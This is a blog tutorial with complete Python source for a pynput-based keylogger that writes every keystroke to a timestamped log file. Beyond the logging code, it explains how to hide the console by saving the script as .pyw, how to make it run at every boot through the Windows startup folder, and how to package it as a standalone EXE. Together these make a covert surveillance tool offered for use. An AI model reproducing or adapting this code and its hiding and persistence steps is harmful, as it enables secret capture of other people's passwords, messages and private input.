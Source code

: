 title: "Python Keylogger"
date: 2017-12-15
category: YouTube
tags: [python, keyboard, logging, pynput]
feature: feature.jpg
description: "This is a Python keylogger which will work on Windows, Mac and Linux. This script uses the pynput module. This python keylogger will store typed keys in a file in order of when they were typed."

[TOC]

youtube:x8GbWt56TlY

## PIP
If you haven't used or setup pip before, go to my tutorial at [how-to-setup-pythons-pip]({{ url_for('blog_post', path='how-to-setup-pythons-pip') }}) to setup pip. This is needed to install pynput to get keys typed.

## Installing Pynput
We will be using the pynput module to listen to mouse events. To install this module execute ```pip install pynput``` in cmd. Watch the output to make sure no errors have occurred; it will tell you when the module has been successfully installed.

![Installing pynput](/posts/how-to-get-mouse-clicks-with-python/pynput1.png)

To double-check that it was installed successfully, open up IDLE and execute the command ```import pynput```; no errors should occur.

![Testing pynput](/posts/how-to-get-mouse-clicks-with-python/pynput2.png)

## Building the Keylogger
Create a new Python file and import Key and Listener from pynput.keyboard and the logging module.

```python
from pynput.keyboard import Key, Listener
import logging
```

Next set a variable which points to where you want to save the logs; leave this as an empty string to save the log beside the python script. Then set up the logging module as shown below.

```python
log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')
```

Then create a definition for keypresses called on_press which takes key as a parameter. In this definition, we want to log the key using the logging info method. The key will need to be cast to a string before logging it.

```python
def on_press(key):
    logging.info(str(key))
```

Next setup an instance of Listener and define the on_press method in a `with` statement and then `.join()` the thread to the main thread.

```python
with Listener(on_press=on_press) as listener:
    listener.join()
```

Now save the file with a .pyw file extension to make sure that the console doesn't appear when it's run.

![Save as .pyw](/posts/python-keylogger/pyw.png)

Run the script in IDLE to make sure that you haven't made any errors. Errors will show up in here if some do occur.

## Autostart
To make the script run on startup first go to your startup folder. Hold down the windows button and press "R" or type run in the windows menu to make the run dialog appear.

![shell:startup example](/posts/python-keylogger/run.png)

Now type ```shell:startup``` in the dialog and press enter. This will open a window at your startup folder.

Copy the keylogger into this folder and then create a new folder somewhere else for logs to be saved to. Make sure this folder is not in the startup folder or it will be opened every time the computer has started. Open the keylogger in IDLE and now change the log_dir to the location of the folder you just created. Make sure this folder path uses forward slashes ('/') and contains a forward slash at the end.

## Stopping the Keylogger
To stop the keylogger, open up task manager and look for anything named python as shown below due to windows just showing program names. If you have an older version of windows, I recommend looking for pythonw.exe. Right-click on this and end the task.

![Python in task manager](/posts/python-keylogger/taskmgr.png)

## Final Script
```python
from pynput.keyboard import Key, Listener
import logging

log_dir = ""

logging.basicConfig(filename=(log_dir + "key_log.txt"), level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))

with Listener(on_press=on_press) as listener:
    listener.join()
```

## Compile to EXE
Want to convert this .py to a .exe? Head over to my tutorial at [convert-py-to-exe]({{ url_for('blog_post', path='convert-py-to-exe') }}) to do it in a few easy steps. This tutorial also shows you how to remove the console that shows up, make one file executables and even add an icon.

Converting to .exe will allow the script to run on Windows computers without python installed (python is pre-installed on Mac and most Linux computers)

## Common Issues and Questions

### It doesn't work (general things to try)
Make sure you run the script in IDLE to check for errors you have made

### 'python' is not recognized as an internal or external command
Python hasn't been installed or it hasn't been installed properly. Go to [how-to-setup-pythons-pip]({{ url_for('blog_post', path='how-to-setup-pythons-pip') }}) and follow the tutorial. Just before you enter the scripts folder into the path variable, remove the "\scripts\" part at the end. You will also want to add another path with "\scripts\" to have pip.

### Where are the log files?
They will be located next to the python file (in the current directory for more advanced users). If it hasn't appeared, make sure you run the script in IDLE to check for errors you have made.

### ModuleNotFoundError/ImportError: No module named 'pynput'
Did you install pynput? This error will not occur if you installed it properly. If you have multiple versions of Python, make sure you are installing pynput on the same version as what you are running the script with.

### I got a SyntaxError
Syntax errors are caused by you and there is nothing I can offer to fix it apart from telling you to read the error. They always say where the error is in the output using a ^. Generally, people that get this issue have incorrect indentation, brackets in the wrong place or something spelt wrong. You can read about SyntaxError on Python's docs [here](https://docs.python.org/2/tutorial/errors.html#syntax-errors).

### How can I stop the listener?
As documented at [https://pythonhosted.org/pynput/keyboard.html](https://pythonhosted.org/pynput/keyboard.html) you can use pynput.keyboard.Listener.stop() to stop listening.

### "Open command window here" isn't shown when I shift right-click?
Make sure you are holding down shift. If you are using new versions of Windows, this has been replaced by "Open PowerShell Window Here". Using this method will work exactly the same for this tutorial; so go ahead and use PowerShell.
